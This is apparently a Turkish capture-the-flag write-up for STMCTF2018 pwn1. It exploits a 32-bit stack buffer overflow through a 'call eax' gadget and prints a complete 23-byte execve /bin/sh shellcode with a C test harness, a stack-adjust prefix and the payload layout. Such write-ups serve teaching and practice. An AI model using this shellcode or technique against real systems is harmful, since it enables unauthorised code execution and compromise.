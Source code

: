 ## STMCTF2018 pwn1 sorusu çözümü

Çoğu soruda olduğu gibi bir dosya verildi ve hemen altında sunucu adresi. Bağlantı için ise nc verilmiş. Sunucunun adresi şu an aklımda olmadığı için kısaca x.x.x.x kullanabiliriz. Tabi şu an için bağlantı mümkün olmadığı için biz local olarak sahte bir flag yapıp bunu kullanacağız.


Bu soruyu görünce hemen karşı sunucuda bu programın barındırdığı kodların çalıştığını anlıyoruz. local olarak çözüp sunucuyu pwn edeceğiz.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/1.png)

Dosyaya hızlıca baktığımızda 32 bit linux ELF formatında olduğunu görüyoruz.

İlk önce hemen blind bir şekilde başlatıp ne yapıyor ne ediyor görelim.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/2.png)

Hiç bişey olmadı. Basit ve ilk tahmin ile acaba overflow olabilir mi diye biraz uzun bir input girelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/3.png)

Evet! Overflow var. Hatta trace edelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/4.png)

Bundan sonrası pattern bulma. Input kısa olduğu için çok uğraşmaya gerek yok yarısı A olacak ve yarısı B olacak şekilde birkaç denemeden sonra patternin 28 olduğu ortaya cıkıyor. Yani 28 uzunluğunda pattern girdikten sonra return adresi verebiliyoruz. Test edelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/5.png)

Evet artık EIP bizim kontrolümüz altında. Öncelikle NX(Non-executable stack) var mı diye kontrol edebiliriz, fakat yarışma açısından konulmadığını tahmin etmek zor değil:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/6.png)

Şimdi biraz derine inelim ve neler olduğuna biraz bakalım. Bunun için gdb ile debug edip return adresinin olduğu noktada tam olarak register durumları nedir bakalım:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/7.png)

Bu resimden anladığımız önemli iki şey:

* ESP = EAX+ 28(pattern ‘A’) + RET(return address ‘B’)
* Girdiğimiz input EAX registerında saklanmış

Bu noktada aklımızda gelen şey EAX registerına atlasak yazdığımız kodlar çalışır. Shellcode yerleştirip oraya atlamalıyız. Bunun için ise bize bunu sağlayacak bir tür gadget lazım. Programın kendi içinde bir tür call varsa işimizi tamamen görür. Bir arama yapalım bu dosya üzerinde:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/8.png)

Tam da istediğimiz şey varmış. 0x8048373 adresi işimizi görür.

Şimdi şöyle bir durum var(yazının ilerleyen kısmında bunu da aşacağız) bizim elimizde 28 var sonra ise return address ordan kesiyor. Bize 28’den kısa bir shellcode lazım. Google’da “Linux x86 shellcode” diye aratırsak çok kısa shellcodelar olduğunu görürüz. Kendimiz de yazabiliriz fakat yarışmada her dakikanın önemli olduğunu hesaba katarsak Google daha hızlı.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/shell.png)

Sadece 23 byte! Gayet güzel oldu. 

```c
    *****************************************************
    *    Linux/x86 execve /bin/sh shellcode 23 bytes    *
    *****************************************************
    *	  	  Author: Hamza Megahed		        *
    *****************************************************
    *             Twitter: @Hamza_Mega                  *
    *****************************************************
    *     blog: hamza-mega[dot]blogspot[dot]com         *
    *****************************************************
    *   E-mail: hamza[dot]megahed[at]gmail[dot]com      *
    *****************************************************

xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

********************************
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```

http://shell-storm.org/shellcode/files/shellcode-827.php

Shellcode test edelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/9.png)

Gayet güzel çalışıyor.
NOT: Test etmek için x86 kullanmak için -m32 parametresi ekledik sonuçta hedefimiz x86 ve yazının başında değindiğimiz nokta olan NX’i devre dışı bırakmak için -z execstack ekledik. Onu eklemezsek çalıştırdığımızda hata alırız. 

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/10.png)

Elimizde ihtiyacımız olan şeyler var şimdi payload build edelim. 

İlk önce shellcode yazıyoruz ve 5 byte padding ekliyoruz (23 + 5) ve sonra ise return adresi olarak “call eax” adresini verirsek oraya atlayıp hemen EAX’a atlayacak. Orda ise shellcode var. 

Shellcode + “A”*5 + 0x8048373

Not: little-endian dolayısıyla tersten yazmamız lazım.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/11.png)

Test edelim:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/12.png)

Hata aldık! 

Bu konuda tecrübeli arkadaşlarımız zaten hemen nedenini anlamıştır. Yukarda da aslında ipucu vardı. Yazının yukarısında burda 2 önemli şey var demiştik. Bir tanesi ESP = EAX + 32. Yukarda shellcode fotoğrafında 5 adet push olduğunu görüyoruz. Bunu tam anlayamayan arkadaşlar debug edip A harflerini girdikten sonra memory set yaparlarsa exploiti manuel yerleştirip return adresini call eax yaparlarsa ve shellcode executiondan itibaren izlerlerse her push operationdan sonra shellcode’un geriden değiştiğini görürler. Bizim tek yapmamız gereken şey shellcode’un başına esp’ye eklemek:

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/13.png)

```asm
section .text
	global _start

_start

	add	esp,36
```

Bize lazım olan şey 3 byte ve artık shellcodemuz 23+3 = 26 byte uzunlukta. Yeni payload:

Addesp + shellcode + 2bytepadding + ret

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/14.png)

NOT: utf8 coding unutmayın.

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/15.png)

x.x.x.x girmek.

Üstünde oynamak

28 byte şekilli afilli birşey için kısa fakat bu durumu aşmak için lea kullanabiliriz. Return olduktan sonra call eax yapacak eğer ki biz oraya:

```asm
lea edx, [eax+40]
call edx
```

Gibi birşey yaparsak return adresinden sonraya atlarız oraya istediğimiz kadar şey yapabiliriz. 

![screenshot](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Pwn1/screenshots/16.png)

Flag.txt olduğunu bildiğimden flag.txt yazdım.
